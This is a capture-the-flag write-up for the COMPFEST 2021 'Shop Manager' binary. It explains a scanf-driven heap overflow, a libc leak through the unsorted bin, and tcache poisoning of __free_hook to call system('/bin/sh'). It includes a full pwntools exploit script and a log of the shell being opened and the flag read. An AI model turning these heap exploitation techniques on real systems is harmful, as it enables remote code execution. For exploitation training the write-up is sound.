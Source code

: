 ## Shop Manager

> Points: 496
>
> Solves: 6

### Description:
A simple shop simulator

nc 103.152.242.242 39221

Author: prajnapras19

### Attachments:
```
shop-manager-master-public.zip
```

## Analysis:

The menu is as follows, and this binary has `Add`,` Delete`, `Edit`,` List`, `Sell` functions.

```
Menu:
1. Add item
2. Delete item
3. Edit item
4. List of added items
5. Sell item
6. Exit
```
The `Item name` input for the `Add` and `Edit` functions uses `__isoc99_scanf("%s", buf)`. Therefore, it has a heap buffer overflow vulnerability because it does not check the size of the input string.

Below is the compilation result of addItem ().

```c
void addItem(void)

{
  long lVar1;
  int iVar2;
  void *pvVar3;
  
  iVar2 = idx;
  if (idx == N) {
    puts("Our shop is full.");
  }
  else {
    pvVar3 = malloc(0x10);
    *(void **)(items + (long)iVar2 * 8) = pvVar3;
    lVar1 = *(long *)(items + (long)idx * 8);
    pvVar3 = malloc(0x20);
    *(void **)(lVar1 + 8) = pvVar3;
    printf("Item name: ");
    __isoc99_scanf("%s",*(undefined8 *)(*(long *)(items + (long)idx * 8) + 8));
    printf("Item price: ");
    __isoc99_scanf("%ld",*(undefined8 *)(items + (long)idx * 8));
    idx = idx + 1;
    puts("Item added successfully.");
  }
  return;
}
```

## Solution:

First I considered how to leak the libc address.
I added 16 Items to make a big chunk.
Then change the name of the 0th Item using a heap buffer overflow as follows: Resize the 1st chunk from 0x21 to 0x431.

```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431   Change to 0x21 => 0x431
0x6042c0:	0x0000000000000000	0x00000000006042e0
0x6042d0:	0x0000000000000000	0x0000000000000031
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

I can create a 0x430 size unsorted bin chunk by deleting the 1st Item.
```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431
0x6042c0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  The 1st chunk goes into an unsorted bin
0x6042d0:	0x0000000000000000	0x0000000000000000
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

In addition, the Add item allows you to put the address of the unsorted bin chunk in the 2nd chunk, so I can leak the libc address with the List of added items feature.
```
    'Name: `G`\n'
    'Price: 140737351834784\n'
```

Now that we have chunk overhauled, I can use the Add, Delete and Edit features to put `__free_hook` in tcache.
```
# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)
```

The following is the state of tcache after executing the above function.
```
pwndbg> bins
tcachebins
0x20 [100]: 0x604310 —▸ 0x7ffff7dcf8e8 (__free_hook) ◂— 0x0
```

Finally, write `/bin/sh` to Price of the 14th chunk, write the address of the　`system` function to `__free_hook`, and delete the 14th chunk to start the shell.

```
# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)
```

I didn't use the Sell function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './chall'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 39221
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  libc = elf.libc

def Add(data, price):
  s.sendlineafter("> ", "1")
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def Delete(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):
  s.sendlineafter("> ", "3")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def List():
  s.sendlineafter("> ", "4")

def Sell(idx, item):
  s.sendlineafter("> ", "5")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("item?\n", item)

def Exit():
  s.sendlineafter("> ", "6")

for i in range(16):
  Add(chr(0x41+i)*8, 1)

# libc leak
Edit(0, "a"*0x28+p64(0x431), 1)
Delete(1)
Add("b", 2)
List()
for i in range(2):
  s.recvuntil("Price: ")
libc_leak = int(s.recvuntil("\n"))
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# tcache poisoning
Add("c", 3)
Delete(5)
Delete(1)
Edit(14, "d", free_hook)

# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr)

# Start shell
Delete(14)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 103.152.242.242 on port 39221: Done
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_Shop_Manager/shop-manager-master-public/public/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7ff49f953ca0
libc_base = 0x7ff49f568000
[*] Switching to interactive mode
$ id
/bin/sh: 1: id: not found
$ ls -l
total 2208
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 bin
-r-xr-xr-x  1 0 0   17264 Sep 12 04:33 chall
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 dev
-r--r--r--  1 0 0      56 Sep 12 04:33 flag.txt
-rwxr-xr-x  1 0 0  179152 Sep 12 04:33 ld-2.27.so
drwxr-xr-x 21 0 0    4096 Sep 12 04:33 lib
drwxr-xr-x  3 0 0    4096 Sep 12 04:33 lib32
drwxr-xr-x  2 0 0    4096 Sep 12 04:33 lib64
-rwxr-xr-x  1 0 0 2030928 Sep 12 04:33 libc-2.27.so
-rwxr-xr-x  1 0 0     339 Sep 12 04:33 run.sh
$ cat flag.txt
COMPFEST13{I_us3_st4Ck_p1v0T1ng_How_bouT_Y0u_dd4dfcc265}
```
